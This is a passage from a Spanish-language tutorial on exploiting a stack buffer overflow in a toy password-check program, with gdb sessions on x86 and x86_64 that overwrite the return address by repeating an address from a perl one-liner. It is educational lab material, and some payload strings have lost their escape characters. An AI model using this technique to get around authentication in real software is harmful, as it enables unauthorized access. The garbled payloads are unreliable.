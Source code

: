 ```bash

```

Experimentando un poco con gdb se descubre que repetir la dirección 8 veces es suficiente para sobrescribir la dirección de retorno original. El comando *$(perl -e &#8216;print &#8220;xbfx84x04x08&#8243;&#8216;x8)* repite la dirección 8 veces, el motivo por el que hay que escribir la dirección al revés es porque internamente se almacenan las direcciones en <a href="http://es.wikipedia.org/wiki/Endianness" target="_blank">little endian</a>. En los resultados de arriba se puede ver cómo se sutituye la dirección de retorno 0x080484bb(entre paréntesis), por la deseada, 0x080484bf.

#### En arquitecturas x86_64

Si tenemos un procesador de 64-bits, el proceso es similar, aunque con gdb debemos usar la opción *g* junto al comando examine para que se muestren las direcciones enteras:

```bash
(gdb) b 9
Breakpoint 1 at 0x40064f: file auth_overflow2.c, line 9.
(gdb) b 16
Breakpoint 2 at 0x40069a: file auth_overflow2.c, line 16.
(gdb) run $(perl -e 'print "xeex06x40x00x00x00x00x00"x10')
Starting program: /home/hkr/hack/auth_overflow2.c.binary $(perl -e 'print "xeex06x40x00x00x00x00x00"x10')

Breakpoint 1, check_authentication (password=0x7fffffffe74b "356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@") at auth_overflow2.c:9
9     strcpy(password_buffer, password);
(gdb) x/10xg $rsp
0x7fffffffe380:  0x00007fffffffe3bf  0x00007fffffffe74b
0x7fffffffe390: 0x0000000000000001  0x000000000040078d
0x7fffffffe3a0: 0x00007ffff7a65c48  0x0000000000400730
0x7fffffffe3b0: 0x00007fffffffe3d0  (0x00000000004006ea)
0x7fffffffe3c0:   0x00007fffffffe4b8  0x0000000200000000
(gdb)

```

En 32-bits el puntero de pila se llamaba ESP, en 64-bit es RSP. En este caso la dirección de retorno es 0x00000000004006ea. Desensamblando la función main como anteriormente,vemos que la dirección de retorno que nos interesa es 0x00000000004006ee, igual que antes, usamos perl &#8212; $(perl -e &#8216;print &#8220;xeex06x40x00x00x00x00x00&#8243;x10&#8242;) &#8212; sobrescribiendo la dirección por la que nos interesa, quedando así:

```bash
(gdb) c
Continuing.

Breakpoint 2, check_authentication (password=0x7fffffffe74b "356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@") at auth_overflow2.c:16
16        return auth_flag;
(gdb) x/10xg $rsp
0x7fffffffe380:   0x00007fffffffe3bf  0x00007fffffffe74b
0x7fffffffe390: 0x06ee4006ee4006ee  0xee4006ee4006ee40
0x7fffffffe3a0: 0x4006ee4006ee4006  0x00004006ee4006ee
0x7fffffffe3b0: 0x00007fffffffe3d0  (0x00000000004006ea)
0x7fffffffe3c0:   0x00007fffffffe4b8  0x0000000200000000

```

